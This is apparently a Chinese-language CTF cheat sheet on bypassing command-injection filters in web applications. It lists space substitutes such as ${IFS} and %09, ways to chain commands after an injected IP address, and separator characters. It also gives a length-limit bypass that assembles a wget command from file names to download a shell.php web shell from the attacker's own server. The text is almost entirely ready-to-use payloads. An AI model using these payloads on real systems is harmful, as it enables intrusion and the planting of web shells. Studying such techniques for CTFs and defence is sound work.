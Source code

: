find -- 列出当前目录下的文件以及子目录所有文件

## 过滤空格

```sh
%09（url传递）(cat%09flag.php)
${IFS}
$IFS$9
<>（cat<>/flag）
<（cat</flag）
{cat,flag}
```

## 过滤目录分割符

```sh
采用多管道命令绕过
127.0.0.1||cd flag_is_here;cat flag_262431433226364.php
```

## 过滤分割符 | & ；

```sh
 ;  //分号
  |  //只执行后面那条命令
  ||  //只执行前面那条命令
  &  //两条命令都会执行
  &&  //两条命令都会执行
  %0a      //换行符
  %0d     //回车符号
  
  用?>代替；
  在php中可以用?>来代替最后的一个；，因为php遇到定界符关闭标签会自动在末尾加上一个分号。
```

## 输入字符长度限制

```sh
car flag
touch "ag"
touch "fl\\"
touch "t \\"
touch "cat\\"
ls -t
ls -t >shell
sh shell
ls
1>wget\
1>你的vps域名.\
1>com\
1>-O\
1>she\
1>ll.p\
1>hp        //这里可以拼接成任何你想执行的命令，上面这是从你的vps上下载一个shell.php来: wget xxx.com -O shell.php
ls>a
sh a
```
